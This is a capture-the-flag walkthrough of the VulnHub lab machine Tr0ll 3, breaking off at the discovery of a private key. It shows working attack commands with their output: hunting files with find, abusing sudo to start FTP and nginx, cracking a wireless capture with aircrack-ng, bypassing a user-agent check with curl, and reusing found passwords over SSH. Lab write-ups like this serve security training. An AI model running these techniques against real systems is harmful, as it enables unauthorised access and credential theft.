# Tr0ll 3

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [Tr0ll: 3](https://www.vulnhub.com/entry/tr0ll-3,340/)
- CVSS3 : [AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:R/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:R/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*The latest version of the Tr0ll series. This one is a little different from the previous iterations, I would say still on the beginner++ level. I hope everyone has fun, be sure to tag @Maleus21 with screen shots of the flag.
You will need to login with start:here
Type: Boot 2 Root
Goal: Obtain flag.txt
Difficulty: Beginner++
Fun level: Over 9000*

## Summary
Tr0ll: 3 starts with the `start:here` credentials to connect with `ssh`, in the `start` home directory there is a directory called `...` that contains a file with the credentials `eagle:oxxwJo`, with the `eagle` shell I identify it belongs to the `russ` group, after use the `find` command, I identify a hidden file in a very long path with name `gold_star.txt`, when I check the `sudo` privileges I notice that I can run `/usr/sbin/service vsftpd start` with `root` privileges, after initializate the `ftp` service, I could connect with the `Anonymous` user, and I find a PCAP file called `wytshadow.cap`, after analizy it with `Wireshark` I identify that almost all conversation use `802.11` protocole, and it use encryption, then I research and find [how to decrypt 802.11](https://wiki.wireshark.org/HowToDecrypt802.11), and the tool [PCAP-CRACKER](https://github.com/BroadbentT/PCAP-CRACKER), after analizy how the tool works, I manually perform the steps using `tcpdump` and `aircrack-ng`, but this last one use a dictionary to perform the attack, and I use the `gold_star.txt` file I found previously, and I get the password `gaUoCe34t1`, with that I could `ssh` to the `wytshadow` user.  The `wytshadow` user can with `sudo` privileges `/usr/sbin/service nginx start`, it opens a web service on PORT `8080`,  When I access it returns `403` forbidden, and I read the `/etc/nginx/sites-available/default` and I identify that there is a condition, that only can access if the `user-agent` match a condition, after modifying the `user-agent` of the request, I get the `genphlux:HF9nd0cR!` credentials. In the `genphlux`'s home directory, I find the private key of the `maleus` user, then I could connect to the `maleus` shell. I identify the `.viminfo` file in the `maleus` home, and it has the `maleus` password, which allows me to check the `sudo` privileges, and the `maleus` user can run with `sudo` privileges the `/home/maleus/dont_even_bother` command, but the `dont_even_bother` file does not exist, then I can create then with any `bash`  command I want, then I spawn the `root` shell and get the `root` flag.

1. CWE-256: Plaintext Storage of a Password
2. CWE-220: Storage of File With Sensitive Data Under FTP Root
3. CWE-922: Insecure Storage of Sensitive Information
4. CWE-287: Improper Authentication
5. CWE-219: Storage of File with Sensitive Data Under Web Root
6. CWE-522: Insufficiently Protected Credentials
7. CWE-532: Insertion of Sensitive Information into Log File
8. CWE-269: Improper Privilege Management

#VirtualBox #Nmap #CyberChef #Ghidra #Python2 #setuid #FTP #Vim #UDP #WireShark #TCPdump #aircrack-ng #IEEE-802-11 #Nginx

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s8 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration, and I find out that the IP is `192.168.2.44`



When I read the challenge description, then I do not need to scan ports, and I should start connecting to the `SSH` service, and with the credentials `start:here`.

## Normal use case
Given I can access `ssh://192.168.2.44`, and I have the credentials `start:here`, then I can get the shell of the user `start`:



## Dynamic detection
Plain text credentials in an insecure location.

Given I can access `ssh://192.168.2.44`, and I have the credentials `start:here`, then I start to explore the server.
When I check the `/etc/passwd` file:
```shell
$ start@Tr0ll3:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
maleus:x:1000:1000:maleus,,,:/home/maleus:/bin/bash
start:x:1001:1001:,,,:/home/start:/bin/bash
wytshadow:x:1003:1003:,,,:/home/wytshadow:/bin/bash
genphlux:x:1004:1004:,,,:/home/genphlux:/bin/bash
fido:x:1005:1006:,,,:/home/fido:/bin/bash
step2:x:1006:1007:,,,:/home/step2:/bin/bash
eagle:x:1002:1002:,,,:/home/eagle:/bin/bash
```
Then I can see that there are 7 users with a `bash` shell.
When I check the `netstat` command:
```shell
$ start@Tr0ll3:~$ netstat -tnlp
Proto Recv-Q Send-Q Local Address  Foreign Address  State
tcp        0      0 127.0.0.53:53  0.0.0.0:*        LISTEN
tcp        0      0 0.0.0.0:22     0.0.0.0:*        LISTEN
tcp6       0      0 :::22          :::*             LISTEN
```
When I check the files in the `start`'s home directory:
```shell
$ start@Tr0ll3:~$ ls -la
...SNIPPED...
drwxrwxr-x  2 start start 4096 Jun 19  2015 ...
...SNIPPED...
drwxrwxr-x  2 start start 4096 Jun 18  2015 bluepill
...SNIPPED...
drwxrwxr-x  2 start start 4096 Jun 17  2015 redpill
...SNIPPED...
```
Then I can see a hidden directory called `...`, and the `bluepill` and `redpill` directories. When I check the directory `...`, then I find a file called `about_time`, and it contains the credentials `eagle:oxxwJo`. When I check the `bluepill`, then I find a file called `awesome_work`, and it contains the link `http://bfy.tw/ODa`. When I access that link
Then I can see that it is a joke:


When I check the `redpill` directory, then I find a file called `this_will_surely_work`, and it contains the credentials `step2:Password1!`. When I use the `ssh` commando with the credentials `eagle:oxxwJo`:
```shell
$ sshpass -p "oxxwJo" ssh eagle@192.168.2.44
```
Then it works:



When I use the `step2:Password1!` credentials, then it does not work, maybe it is also a joke, and I can conclude that there is a mishandling of password storage.

## Exploitation

Directory attack on PCAP encrypted file, private key leak, user privileges.

Given I can access `ssh://192.168.2.44`, and I have the `start:here` credentials, and I find the credential `eagle:oxxwJo` in a hidden directory, then I start to explore the server with the user `eagle`, when I check the `id` command, then I notice that it has the group `russ`, when I use the `find` command:
```shell
eagle@Tr0ll3:~$ find / -group russ -ls 2>/dev/null | grep -v /proc | \
> grep -v /sys | grep -v /run

...SNIPPED...
917717  34900 -rwxrwxrwx   1 eagle    russ     35737600 Aug  2  2019 \
/.hints/lol/rofl/roflmao/this/isnt/gonna/stop/anytime/soon/still/
going/lol/annoyed/almost/there/jk/no/seriously/last/one/rofl/ok/ill/
stop/however/this/is/fun/ok/here/rofl/sorry/you/made/it/gold_star.txt
```
Then I can see a hidden directory with several directories inside, and at the end is the file `gold star.txt`. When I read that file:
```
QBu4rIhKXJ
DKbpcZQpO3
T7JUfO0jjZ
zKjbOBpTK8
...SNIPPED...
```
And I can see it has `3248872` lines, and it has a structure of `10` characters per line, when I try to use CyberChef to analyze it, but with `base64` it does not return anything useful. When I see the frequency distribution, then I can see that all alphanumeric characters have the same frequency:



And it looks like the file was generated with a tool like `crunch`, then I stop parsing the file, and I keep exploring the server, when I check the permissions of `sudo`:
```shell
$ eagle@Tr0ll3:~$ sudo -l
...
User eagle may run the following commands on Tr0ll3:
    (root) /usr/sbin/service vsftpd start
```
Then I can start an `FTP` service, when I run:
```shell
$ eagle@Tr0ll3:~$ sudo /usr/sbin/service vsftpd start
```
And I check the `netstat` command again, and now, I can see the `FTP` service on TCP port `21`, and the `vsftpd` service started successfully. When I try to connect as the `Anonymous` user:
```shell
$ ftp 192.168.2.44
```
Then it works, and I see a `PCAP` file called `wytshadow.cap`:



And I download it, when I analyze it with `Wireshark`, then I identify that almost all the trace uses the `802.11` protocol
And I see the `SSID` `wytshadow`:



And all traffic seems to be encrypted, and that makes me think that with that capture I can get the password. When I search in DuckDuckGo `802.11 traffic PCAP crack`, then I find two interesting pages, and the first one [how to decrypt 802.11](https://wiki.wireshark.org/HowToDecrypt802.11), and the second one is [PCAP-CRACKER](https://github.com/BroadbentT/PCAP-CRACKER), when I read the first, then I can understand the protocol, and how to put the passphrase key in `Wireshark`. When I read the second, then I find a `Python2` script to try to crack the passphrase key. When I download the script, then I notice that I need some packages, and I have to install them:
```shell
$ sudo apt install tshark editcap pcapfix aircrack-ng ngrep
```
And after that, I use the command:
```shell
$ sudo python2 PCAP-CRACKER/pcap-cracker.py wytshadow.cap
```
But it does not work, and I decided to analyze what the code does. When I read line 126:
```python
126 cmd = "tcpdump -ennr '" + filename + "' '(type mgt subtype beacon)' \
    | awk '{print $13}' | sed 's/[()]//g;s/......//' | sort | uniq >
    SSID.txt"
```
And I can see that it is trying to identify the `MAC BSSID`, and after that, on line 148:
```python
148 os.system("aircrack-ng -b " + ssid + " '" + filename + "' > \
    Answer.txt")
```
Then I can see that it uses the `aircrack-ng` command, and that command it uses to crack the passphrase, and now, I decided to perform each step manually. When I run the command:
```shell
$ tcpdump -ennr wytshadow.cap '(type mgt subtype beacon)'
reading from file wytshadow.cap, link-type IEEE802_11 (802.11)
23:40:16.989747 BSSID:18:d6:c7:3f:23:89
DA:ff:ff:ff:ff:ff:ff SA:18:d6:c7:3f:23:89 Beacon (wytshadow)
[1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 Mbit] ESS CH: 8, PRIVACY
```
Then I can identify the `BSSID` is  `18:d6:c7:3f:23:89`. When I use the `aircrack-ng` command after reading the `help` option, and with the Rockyou list:
```shell
$ aircrack-ng -b '18:d6:c7:3f:23:89' wytshadow.cap -w rockyou.tx
```
But it fails, and I remember the file `gold_star.txt`. When I run the `aircrack-ng` again, and I use the `golden_star.txt` file for the dictionary attack:
```shell
$ aircrack-ng -b '18:d6:c7:3f:23:89' wytshadow.cap -w gold_star.txt
```
Then it works:



And I find the key `gaUoCe34t1`, When I put the key in Wireshark:



Then I can only read `UDP` packages:



But there is nothing useful, and I think that maybe the key found is the shell password. When I use the `ssh` command:
```shell
$ sshpass -p "gaUoCe34t1" ssh wytshadow@192.168.2.44
```
Then it works:



## Lateral movement

I can see an executable file `oohfun`, And it has `setuid` permissions to run it as the user `genphlux`, and the user `wytshadow` can run an `NGINX` service as root, when I copy the `oohfun` binary to my local machine:
```shell
$ sshpass -p "gaUoCe34t1" \
> scp wytshadow@192.168.2.44:/home/wytshadow/oohfun .
```
And I decompiled with `Ghidra`, then I can see the main function:



And it runs `/lol/bin/run.sh`, and it does it with the user `genphlux`. When I try to read the `run.sh`, then I can not do it, because I do not have permission. When I run:
```shell
$ wytshadow@Tr0ll3:~$ ./oohfun
```
Then it starts printing indefinitely:
```shell
...SNIPPED...
iM Cr@zY L1k3 AAA LYNX
...SNIPPED...
```
And I decided to try the `NGINX` service. When I run:
```shell
$ wytshadow@Tr0ll3:~$ sudo /usr/sbin/service nginx start
```
And I check with the `netstat` command:
```
$ wytshadow@Tr0ll3:~$ netstat -tnlp
...SNIPPED...
Proto Recv-Q Send-Q Local Address    Foreign Address  State
tcp        0      0 0.0.0.0:8080     0.0.0.0:*        LISTEN
...SNIPPED...
```
Then I can confirm that there is now a service at `8080` TCP. When I access `http://192.168.2.44:8080`, then I can see an error `403` Fordibben:



And I decided to check the `NGINX` configuration. When I read the file in the `NGINX` `sites-available` directory:
```
$ wytshadow@Tr0ll3:~$ cat /etc/nginx/sites-available/default | grep -v '#'
```
Then I can see:



And I identify that there is a condition with the `user-agent`, And it must start with `Lynx`. When I use the `curl` command, and I add a `user agent` that meets that condition:
```shell
$ curl 192.168.2.44:8080 -A '"Lynx-test'
genphlux:HF9nd0cR!
```
Then I can see the `genphlux` credentials. When I use the `ssh` command:
```shell
$ sshpass -p "HF9nd0cR!" ssh genphlux@192.168.2.44
```
Then I get the `genphlux` shell:



## Lateral movement 2

When I check the `genphlux`'s home directory, and I read the file `maleus`, then I can see that it is a private key:

